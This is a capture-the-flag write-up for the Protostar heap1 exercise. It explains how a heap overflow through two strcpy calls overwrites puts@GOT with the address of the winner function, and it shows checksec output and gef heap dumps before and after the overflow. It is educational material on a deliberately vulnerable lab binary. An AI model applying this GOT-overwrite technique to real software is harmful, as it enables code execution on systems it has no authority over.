 # Protostar Heap1
A heap overflow overwriting a pointer in a structure. We have to call the function **winner**.

## Binary
### Code
Decompiled with Binary Ninja HLIL.

![](img/main_hlil.png)

### Security 
Only NX enabled.

```shell
$ checksec ./heap1
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Solution
Overwrite **puts@GOT** with pointer to **winner** function.

#### Heap chunks
We have four chunks of size 0x10
```shell
gef➤  dereference 0x0804b1a0-8 16
0x0804b198│+0x0000: 0x00000000
0x0804b19c│+0x0004: 0x00000011
0x0804b1a0│+0x0008: 0x00000001
0x0804b1a4│+0x000c: 0x0804b1b0  →  "AAAA"
0x0804b1a8│+0x0010: 0x00000000
0x0804b1ac│+0x0014: 0x00000011
0x0804b1b0│+0x0018: "AAAA"
0x0804b1b4│+0x001c: 0x00000000
0x0804b1b8│+0x0020: 0x00000000
0x0804b1bc│+0x0024: 0x00000011
0x0804b1c0│+0x0028: 0x00000002
0x0804b1c4│+0x002c: 0x0804b1d0  →  "BBBB"
0x0804b1c8│+0x0030: 0x00000000
0x0804b1cc│+0x0034: 0x00000011
0x0804b1d0│+0x0038: "BBBB"
0x0804b1d4│+0x003c: 0x00000000
```
Two chunks contain a pointer to another chunk used as the destination in **strcpy**.

We use the first **strcpy** to overwrite the destination of the second **strcpy** and point it to **puts@GOT**.

We use the second **strcpy** to overwrite **puts@GOT** with the address of our **winner** function. That way when puts gets called for the first time it executes **winner**.

So for the first **strcpy** we need a padding of 0x10 (distance to the next chunk data) plus 0x4 (size of first part of data containing an int). And then we the address of **puts@GOT**.

For the second **strcpy** we just have to give it the address of our **winner** function.

### Heap chunks after overflow
```shell
gef➤  dereference 0x098951a0-8 16
0x09895198│+0x0000: 0x00000000
0x0989519c│+0x0004: 0x00000011
0x098951a0│+0x0008: 0x00000001
0x098951a4│+0x000c: 0x098951b0  →  0x61616161
0x098951a8│+0x0010: 0x00000000
0x098951ac│+0x0014: 0x00000011
0x098951b0│+0x0018: 0x61616161
0x098951b4│+0x001c: 0x61616162
0x098951b8│+0x0020: 0x61616163
0x098951bc│+0x0024: 0x61616164
0x098951c0│+0x0028: 0x61616165
0x098951c4│+0x002c: 0x0804a018  →  0x080484b6  →  <winner+0> push ebp
0x098951c8│+0x0030: 0x00000000
0x098951cc│+0x0034: 0x00000011
0x098951d0│+0x0038: 0x00000000
0x098951d4│+0x003c: 0x00000000
```